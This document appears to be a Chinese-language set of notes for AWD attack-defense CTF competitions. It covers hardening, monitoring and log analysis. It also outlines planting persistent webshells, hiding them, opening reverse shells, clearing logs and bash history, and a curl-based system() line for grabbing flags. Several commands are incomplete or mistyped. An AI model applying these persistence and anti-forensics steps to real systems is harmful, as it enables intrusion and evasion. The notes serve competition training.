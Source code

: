 [TOC]

awd有时间帮人修复漏洞, 让其他人不能攻，只有自己能进行攻击。

# CTF线下攻防赛

## SSH登录修改账秘

### 下载Web信息

### 上WAF
### 文件监控

log分析 - 利用别人家的脚本

### 端口扫描

## 主机发现

RouterScan.exe , HttpScan.py

### 端口扫描 - Nmap

服务分析

### 黑盒测试

* 目录扫描
    
    * 后门爆破 - k8一句话爆破
    * k8fly

#### 权限维持

种植不死马(文件隐藏) - 条件竞争 - 批量上传+批量访问

    不死马解决方案： 1.杀进程 2.竞争写入3.断Apache（被发现扣分）
    最好是种md5马。防止反打。
    echo system("curl 10.0.0.1") => 批量获取

反弹shell

信息隐藏

     文件前面加.比如1.php => .1.php
     多个目录下种马，asp, jsp马都尝试下。

[AWD线下备忘录](https://www.fuzzer.xyz/2019/04/02/AWD线下准备指南/)

#### 清除痕迹

var/log, 日志
bash_history等 等

# AWD 
ABC3人

1.dump目录的源码。。。备份下。 /var/www/html，
2.D盾扫一下。
2.1 同时派一个人 nmap等工具 信息收集
关闭非必要端口，留下基本端口。
看下目录结构。
准备waf，放上，然后测试自己主机的服务（不要让自己的主机当机）。主办方定时会check基本服务有没有。
上文件监控和流量监控(Wireshark监控一下)
看/var/log 里的日志。

   
自动化批量提交脚本, curl, getflag,

## 攻击流程

3. 上WAF、上监控、只留必要端口

部署WAF

部署文件监控脚本

部署流程监控脚本或开启服务器日志记录。

[AWD攻防赛之各类漏洞FIX方案](https://www.freebuf.com/articles/web/208778.html)

## 常用命令

    ssh <-p 端口>  用户名@IP
    scp 文件路径  用户名@IP：存放路径
    tar -zcvf web.tar.gz /var/www/html
    pkill -kill -t <用户tty>

查看已建立网络连接及进程

    netstat -antulp | grep EST

查看指定端口被哪个进程占用

    lsof -i:端口号 或者 netstat -tunlpl | grep 端口号

结束进程命令

    kill PID
    killall <进程名>
    kill - <PID>

封杀某个IP或者ip段， 如:

    iptables -I INPUT -s . j DROP 
    iptables -I INPUT-S ./ j DROP

禁止从某个主机ssh远程访问登陆到本机，如123..

    iptable -t filter -A INPUT -s . p tcp -- dport j DROP

备份mysql数据库

    mysqldump -u 用户名 -p密码 数据库名 > back.sql
    mysqldump --all-databases >> bak.sql

还原mysql数据库

    mysql -u 用户名 -p 密码 数据库名 < bak.sql
    find / *.php -perm
    awk -F: /etc/passwd
    crontab -l

检测所有的tcp连接数量及状态

    netstat --ant | awk | grep | sed -e -e | sort | uniq -c | sort -rn

查看页面访问排名前十的IP
    
    cat /var/1og/apache2/access.1og | cut -f1 -d | sort | uniq -c | sort -k -r | head

查者页面访问排名前十的URL

    cat /var/log/apache2/access.log | cut -f4 -d | sort | uniq -c | sort -k -r | head

## 资源分享

[AWD 资源小合集(持续更新)](https://neversec.top/20190415/how-to-awd.html)

[linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

[AWD线下赛脚本集合](https://github.com/admintony/Prepare-for-AWD)

### 常用工具

    Burpsuite
    Sqlmap
    Nmap、masscan、 御剑、wpscan
    nc
    D盾、Seay、 Rips、 安全狗
    MobaXterm、Xshell、 Xftp
    菜刀或蚁剑
    Chrome、Firefox各类插件
    Hackbar
    Kali
    Python的各类函数库、软件包

### 代码比较工具

BeyondCompare(Windows)

Kaleidoscope(MacOS)

### 一句话木马

php,asp,aspx,jsp, 内存马

## 其他准备

提前准备好各种cmd的poc、exp(phpwin, phpcms, dz)

还有各种自动化脚本，起码有个模板
